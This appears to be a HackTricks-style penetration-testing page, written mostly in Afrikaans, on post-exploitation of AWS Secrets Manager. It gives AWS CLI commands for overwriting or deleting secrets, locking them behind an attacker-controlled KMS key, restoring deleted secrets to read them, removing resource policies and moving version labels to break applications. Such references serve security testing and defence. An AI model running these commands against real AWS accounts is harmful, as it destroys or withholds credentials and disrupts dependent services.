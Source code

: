 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

For more information check:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Lees geheime

Die **geheime self is sensitiewe inligting**, [kyk na die privesc bladsy](../aws-privilege-escalation/aws-secrets-manager-privesc.md) om te leer hoe om dit te lees.

### DoS — Verander geheime waarde

Deur die waarde van die geheim te verander, kan jy **'n DoS op al die stelsels wat van daardie waarde afhanklik is veroorsaak.**

> [!WARNING]
> Let wel dat vorige waardes ook gestoor word, so dit is maklik om net terug te keer na die vorige waarde.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

As die aanvaller die secretsmanager:UpdateSecret toestemming het, kan hulle die geheim konfigureer om 'n KMS key te gebruik wat deur die aanvaller besit word. Daardie sleutel word aanvanklik so opgestel dat enigiemand daartoe toegang het en dit kan gebruik, sodat die geheim met die nuwe sleutel bygewerk kan word. As die sleutel nie toeganklik was nie, kon die geheim nie bygewerk word nie.

Na die verandering van die sleutel vir die geheim, wysig die aanvaller die konfigurasie van hul sleutel sodat slegs hulle daartoe toegang het. Op hierdie manier sal toekomstige weergawes van die geheim met die nuwe sleutel geënkripteer word, en aangesien daar geen toegang tot daardie sleutel is nie, sal die vermoë om die geheim op te haal verlore gaan.

Dit is belangrik om te let dat hierdie ontoeganklikheid slegs in latere weergawes sal voorkom, nadat die inhoud van die geheim verander is, aangesien die huidige weergawe steeds met die oorspronklike KMS key geënkripteer is.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

Die minimum aantal dae om 'n secret te verwyder is 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Dit is moontlik om 'n geheim te herstel, wat die herstel van geheime wat vir verwydering geskeduleer is moontlik maak, aangesien die minimum verwyderingsperiode vir geheime 7 dae is en die maksimum 30 dae. Saam met die secretsmanager:GetSecretValue toestemming maak dit moontlik om hul inhoud te bekom.

Om 'n geheim wat in die proses van verwydering is te herstel, gebruik jy die volgende opdrag:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Hierdie aksie maak dit moontlik om die hulpbronbeleid te verwyder wat beheer wie toegang tot 'n geheim het. Dit kan tot 'n DoS lei indien die hulpbronbeleid gekonfigureer was om toegang aan 'n spesifieke groep gebruikers toe te laat.

Om die hulpbronbeleid te verwyder:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Die state van 'n geheim word gebruik om weergawes van 'n geheim te bestuur. AWSCURRENT merk die aktiewe weergawe wat toepassings gebruik, AWSPREVIOUS hou die vorige weergawe sodat jy terug kan rol indien nodig, en AWSPENDING word in die rotasieproses gebruik om 'n nuwe weergawe voor te berei en te valideer voordat dit die huidige gemaak word.

Toepassings lees altyd die weergawe met AWSCURRENT. As iemand daardie etiket na die verkeerde weergawe skuif, sal die toepassings ongeldige inlogbewyse gebruik en kan misluk.

AWSPREVIOUS word nie outomaties gebruik nie. As AWSCURRENT egter verwyder of verkeerd toegewys word, kan dit lyk asof alles steeds op die vorige weergawe loop.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../banners/hacktricks-training.md}}
